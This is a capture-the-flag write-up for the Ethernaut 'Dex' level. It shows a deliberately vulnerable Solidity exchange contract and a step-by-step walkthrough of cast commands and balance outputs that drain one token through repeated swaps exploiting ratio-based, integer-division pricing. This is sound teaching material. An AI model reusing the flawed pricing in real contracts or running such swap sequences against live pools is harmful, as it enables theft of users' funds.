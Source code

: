 ## Dex Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

## Solution

Because the exchange rate is based on the ratio of `token1` to `token2`, we can **continouly swap the two tokens for each other** till there one of the tokens have no supply left in the contract due to solidity having no floating points.

### Walkthrough
##### 1. Call the dex's approve function so that we can make the swaps
```console
cast send $LEVEL_ADDRESS "approve(address,uint)" $LEVEL_ADDRESS 1000 --gas 90000 --private-key $PRIVATE_KEY
```

##### 2. Let's find the address of token1 and token2
```console
cast call $LEVEL_ADDRESS "token1()"
```
```console
cast call $LEVEL_ADDRESS "token2()"
```

##### 3. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 10 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 20

[Dex balance after transaction]
token1 : 110 
token2 : 90
```

##### 4. Swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 20 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 24
token2 : 0

[Dex balance after transaction]
token1 : 86 
token2 : 110
```

##### 5. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 24 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 30

[Dex balance after transaction]
token1 : 110 
token2 : 80
```

##### 6. Swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 30 --gas 250000 \ 
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 41
token2 : 0 

[Dex balance after transaction]
token1 : 69
token2 : 110
```

##### 7. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 41 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 65

[Dex balance after transaction]
token1 : 110 
token2 : 45
```

##### 8. We cannot swap 65 `token2` to `token1` as we would expect to receive 158 `token1` in return which is more than the supply in the contract. To drain the contract for all 110 `token1`, we need to swap 45 `token2` to get 110 `token1`
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 45 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 110
token2 : 20

[Dex balance after transaction]
token1 : 0 
token2 : 90
```

> Dex's token1 supply has now been drained



---

##### [:arrow_left: Back To Main Menu](../README.md)
